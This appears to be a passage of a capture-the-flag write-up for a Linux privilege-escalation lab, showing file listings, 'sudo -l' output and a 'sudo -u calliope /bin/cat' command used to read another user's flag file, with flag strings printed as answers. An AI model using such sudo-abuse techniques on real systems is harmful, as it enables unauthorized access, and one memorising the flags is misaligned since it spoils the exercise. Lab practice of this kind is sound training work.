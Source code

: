 ### 任务目标

```plaintext title="mission.txt"
User calliope likes to have her things looked at.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root  aegle    4.0K Jul 26  2023 .
drwxr-xr-x 1 root  root     4.0K Jul 26  2023 ..
-rw-r--r-- 1 aegle aegle     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aegle aegle    3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 aegle aegle     807 Apr 23  2023 .profile
-rw-r----- 1 root  calliope   21 Jul 26  2023 calliope_pass.txt
-rw-r----- 1 root  aegle      22 Jul 26  2023 flagz.txt
-rw-r----- 1 root  aegle     176 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
aegle@hades:~$ sudo -l
Matching Defaults entries for aegle on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aegle may run the following commands on hades:
    (calliope) NOPASSWD: /bin/cat
aegle@hades:~$ sudo -u calliope /bin/cat /pwned/calliope/flagz.txt
^rFWOMwBJDidqSNtEJGJ^
```

## User - calliope

### flag - 17

```plaintext
^rFWOMwBJDidqSNtEJGJ^
```

### flag- hidden - 0xM

```plaintext
^OCbFzMIKPQOZQMEUKwEi^
```

### 任务目标

```plaintext title="mission.txt"
The user calypso often uses write to communicate.
```

### 行动

```plaintext title="ls -lah"
-rw-r--r-- 1 calliope calliope  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 calliope calliope 3.5K Jul 26  2023 .bashrc
-rw-r--r-- 1 calliope calliope  807 Apr 23  2023 .profile
drwxr-xr-x 2 root     root     4.0K Jul 26  2023 .ssh
-rw-r----- 1 root     calliope   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root     calliope  175 Jul 26  2023 mission.txt
-r-s--s--- 1 root     calliope  16K Jul 26  2023 writeme
```
